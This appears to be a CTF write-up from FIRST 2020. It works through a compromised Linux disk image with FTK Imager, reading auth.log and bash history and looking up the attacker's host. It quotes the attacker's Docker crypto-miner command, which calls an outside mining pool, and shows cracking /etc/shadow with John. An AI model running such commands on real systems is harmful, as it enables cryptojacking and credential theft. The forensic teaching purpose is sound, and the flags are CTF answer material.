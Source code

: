 ```yaml
---
title: "FIRST 2020 CTF Challenge: Write-up"
date: "2020-06-26"
layout: single
tags:
- CTF
- DFIR
categories:
- Write-Up
---
```


Hey. A CTF online competition organized by U.S. Department of Homeland Security’s (DHS) Cybersecurity & Infrastructure Security Agency (CISA) was ended yesterday (27/6).

This post will going through all challenges that my team solved. Let's go.

Tools used:
1. FTK Imager
2. Linux terminal
3. Online tools
4. Wireshark

# Forensics
For this category, organizer gave us a `.dd` file of compromised linux machine named `hacked.dd`. Challenges 1-7 will be use this dd image to answer all the questions (flag).

Open up the .dd file in FTK Imager will help us a lot to go through this category.

### Challenge 1
![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/1.png)

To monitor system logins, one of the important file we should monitor is `auth.log` reside in `/var/log`. As you can see in FTK imager ss below:

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/2020-06-26-10-42-24.png)

We then dump the `auth.log` into our local machine, and start analyse it with our text editor (vs code) :p

As we see below, there's a lot (ton) of attempts to login but failed from IP `45.62.224.162`. It may a bruteforce attack was launched by the attacker.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/2020-06-26-10-44-43.png)

Scrolling down little bit, and we can see that the attacker successfully get into the machine.

```
Mar 10 06:55:01 dockersrv sshd[1997]: Accepted password for jdoe from 45.62.224.162 port 37488 ssh2
Mar 10 06:55:01 dockersrv sshd[1997]: pam_unix(sshd:session): session opened for user jdoe by (uid=0)
Mar 10 06:55:01 dockersrv systemd: pam_unix(systemd-user:session): session opened for user jdoe by (uid=0)
Mar 10 06:55:01 dockersrv systemd-logind[803]: New session 3 of user jdoe.
Mar 10 06:55:51 dockersrv sudo:     jdoe : TTY=pts/0 ; PWD=/home/jdoe ; USER=root ; COMMAND=/bin/su -
Mar 10 06:55:51 dockersrv sudo: pam_unix(sudo:session): session opened for user root by jdoe(uid=0)
Mar 10 06:55:51 dockersrv su[2105]: Successful su for root by root
Mar 10 06:55:51 dockersrv su[2105]: + /dev/pts/0 root:root
Mar 10 06:55:51 dockersrv su[2105]: pam_unix(su:session): session opened for user root by jdoe(uid=0)
Mar 10 06:55:51 dockersrv su[2105]: pam_systemd(su:session): Cannot create session: Already running in a session
Mar 10 06:56:05 dockersrv groupadd[2122]: group added to /etc/group: name=hack3rman, GID=1001
Mar 10 06:56:05 dockersrv groupadd[2122]: group added to /etc/gshadow: name=hack3rman
Mar 10 06:56:05 dockersrv groupadd[2122]: new group: name=hack3rman, GID=1001
Mar 10 06:56:05 dockersrv useradd[2126]: new user: name=hack3rman, UID=1001, GID=1001, home=/home/hack3rman, shell=/bin/bash
Mar 10 06:56:21 dockersrv passwd[2134]: pam_unix(passwd:chauthtok): password changed for hack3rman
Mar 10 06:56:26 dockersrv chfn[2135]: changed user 'hack3rman' informatio
```

It start to create user `hack3rman` and do his "things" after that.

Flag: `45.62.224.162`

### Challenge 2
![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/2.png)

As we see in the `auth.log`, sshd service accepted password from user `jdoe` from attacker IP (`45.62.224.162`) is on `Mar 10 06:55:01`.

Flag: `Mar 10 06:55:01`

### Challenge 3
![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/3.png)

The use that has been compromised was `jdoe`

Flag: `jdoe`

### Challenge 4
![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/4.png)

So, the organizer ask us to retrieve `jdoe` password.

To crack `jdoe`'s password, we need to take `/etc/shadow` file and crack it with `John`.

So, we dumped `/etc/shadow` to our local machine and start crack the hash using John in my Kali terminal bash in Windows.

```
$ john shadow
```

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/2020-06-26-10-59-50.png)

User `jdoe` use an easy password for his account, therefore the process to crack and bruteforce will be fast and easy!

Flag: `123456`

### Challenge 5
![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/5.png)

As we monitored the log, we've seen that the attacker created a user named `hack3rman`.

Flag: `hack3rman`

### Challenge 6
![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/6.png)

Now, we need to retrive the command used by attacker to make his profit in our `hacked` server. We can found history of commands used by user (unless user deleted it) in `/home/<user>/.bash_history`. The `.bash_history `file tracks a user’s command history and is an important artifact in Linux and Mac forensics. Suspects may attempt anti-forensic techniques to corrupt or remove `.bash_history` content. In our case, the attacker is not remove this important files. Therefore, we can track it's command.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/2020-06-26-11-06-33.png)

As we see, the attacker try to run a crypto-miner in the compromised server.

Flag: `sudo docker service create --name miner alexellis2/cpu-opt:2018-1-2 ./cpuminer -a hodl -o stratum+tcp://hodl.eu.nicehash.com:3352 -u 35THoNiL8vNCESSq5ZPmZYTHT1GymWvUAx.autopsit.org`


# Threat Intel

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/Bonus.png)

Now we already know the IP (45.62.224.162). Let's use online tools to investigate the hoster name and it's country. I'll this [website](https://check-host.net/) to define the hosting and the country.

![](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/first%20lounge%20challenges/Forensic%20and%20intel/2020-06-26-11-14-48.png)

Flag: `cloudatcost/canada`



